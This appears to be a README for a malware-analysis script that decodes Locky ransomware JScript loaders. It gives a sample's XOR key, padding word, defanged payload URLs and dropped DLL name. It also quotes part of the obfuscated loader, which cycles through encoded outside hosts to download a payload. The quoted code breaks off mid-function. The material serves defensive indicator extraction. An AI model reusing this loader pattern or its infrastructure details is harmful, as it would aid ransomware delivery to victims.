 # Locky Indicator of Compromise (IOC) JSCRIPT Extractor

**Source:** https://www.flashpoint-intel.com/anatomy-locky-zepto-ransomware/

**Source:**
```
Usage: python LockyExtractor.py 
Enter jscript file name with jscript extension: <path to the local JScript loader file>
```
**Goal**: Assist analysts with decoding and obtain relevant information from Locky HTA Application (HTA) and Windows Script File (WSF) JSCRIPT loaders.

Locky ransomware was notorious for its usage of the second-stage JavaScript and Windows Script File JSCRIPT in its spray-and-pray attacks.

**These are classic simple XOR-ed .wsf/.hta SCRIPT payloads used by this gang.**

For example, let’s take a look at the following Locky HTA JSCRIPT loader:
```
sample: 3d91a6ffed8b038363a0ead0f8985d1bdf88ba543aff0bcab048819d70455073.jscript.
```

**Padding word:**
```
LICIZAX
```
**XOR Key:**
```
b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq
```
**Payload URI: (remove padding word and decode Base64):**
```
goldenladywedding[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
www[.]jmetalloysllp[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
livewebsol[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
```
**Filename in %TEMP%/AppData/ (launched by rundll32.exe with ‘qwerty'):**
```
NqmXYsBdh[.]dll
```
**Here is the relevant function right below the eval() one:**
```
var brigadabrigadalalapolicMOTALO2HORDA17 = "NqmXYsBdh";
var brigadabrigadalalapolicTRAxKey = brigadabrigadalalapolicMOTALO2fsta("b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq");
var brigadabrigadalalapolicMOTALO2_a5 = ["Z29sZGVubGFkeLICIZAXXdlZGRpbmcuY29tL3ZkRzc2VlVZNzZyam51","dLICIZAX3d3LmptZXRhbGxveXNsbHAuYLICIZAX29tL3ZkRzc2VlVZNzZyam51","bGl2ZXdlYnNvbC5jb20vdmRHLICIZAXNzZWVVk3NnJqbnU="]; 
var brigadabrigadalalapolicMOTALO2HORDAI = 0;
for(brigadabrigadalalapolicMOTALO2HORDA5 in brigadabrigadalalapolicMOTALO2_a5){
brigadabrigadalalapolicMOTALO2HORDAI++;
try{
var brigadabrigadalalapolicMOTALO2HORDA6 =brigadabrigadalalapolicMOTALO2_bChosteck.brigadabrigadalalapolicMRADXHO() + brigadabrigadalalapolicMOTALO2_a5[brigadabrigadalalapolicMOTALO2HORDA5].brigadabrigadalalapolicMRADXHO() + "?CHhjpz=zhXHhhwS";
if(brigadabrigadalalapolicMOTALO2_a2(brigadabrigadalalapolicMOTALO2HORDA6,brigadabrigadalalapolicMOTALO2HORDA17+brigadabrigadalalapolicMOTALO2HORDAI)){
break;
```
